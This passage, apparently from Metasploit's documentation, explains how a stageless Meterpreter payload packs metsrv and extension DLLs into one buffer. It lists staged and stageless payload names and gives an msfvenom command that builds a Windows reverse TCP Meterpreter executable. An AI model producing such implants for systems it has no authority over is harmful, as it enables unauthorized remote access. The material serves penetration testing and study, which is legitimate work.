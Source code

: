 1. Loads the extension DLL into memory.
1. Calculates the size of the DLL.
1. Writes the size of the DLL as a 32-bit value to the configuration block.
1. Writes the entire body of the DLL, as-is, to the end of the conifiguration block.
 
Once the end of the list of extensions is reached, the last thing that is written to the payload buffer is a 32-bit representation of `0` (`NULL`) which indicates that the list of extensions has been terminated. This `NULL` value is what `metsrv` will look for when iterating through the list of extensions so that it knows when to stop. After this, any extension initialisation scripts are wired in (though that's beyond the scope of this article).
 
The final payload layout looks like the following:

```
+-+--------+-----------------------------------------------------------+
| |        |                    Configuration Block                    |
|b|        |+-----------+-+---------+-+---------+-------+-----------+-+|
|o|        ||  session  |S|         |S|         |       |           |N||
|o| metsrv ||    and    |i|  ext 1  |i|  ext 2  |  ...  | ext inits |U||
|t|        || transport |z|         |z|         |       |           |L||
| |        ||  config   |e|         |e|         |       |           |L||
| |        |+-----------+-+---------+-+---------+-------+-----------+-+|
+-+--------+-----------------------------------------------------------+
```

This payload can be embedded in an exe file, encoded, thrown into an exploit (assuming there's room!), and who knows what else! The important thing is that we now have all of the bits that we need in the one payload.
 
## How do I use stageless Meterpreter?
 
Firstly, it has a different name! It follows the same convention as all of the other staged vs stageless payloads:
 
| **Payload**      | **Staged**                             | **Stageless**                          |
| ---------------- | -------------------------------------- | -------------------------------------- |
| Reverse TCP      | `windows/meterpreter/reverse_tcp`      | `windows/meterpreter_reverse_tcp`      |
| Reverse HTTPS    | `windows/meterpreter/reverse_https`    | `windows/meterpreter_reverse_https`    |
| Bind TCP         | `windows/meterpreter/bind_tcp`         | `windows/meterpreter_bind_tcp`         |
| Reverse TCP IPv6 | `windows/meterpreter/reverse_ipv6_tcp` | `windows/meterpreter_reverse_ipv6_tcp` |
 
To create a payload using one of these babies, you use `msfvenom` just like you would any other payload.
 
To make a stageless payload that contains only `metsrv` we do the following:

```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 -f exe -o stageless.exe
```

To add extensions to the payload, we can make use of the `EXTENSIONS` parameter, which takes a comma-separated list of extension names.
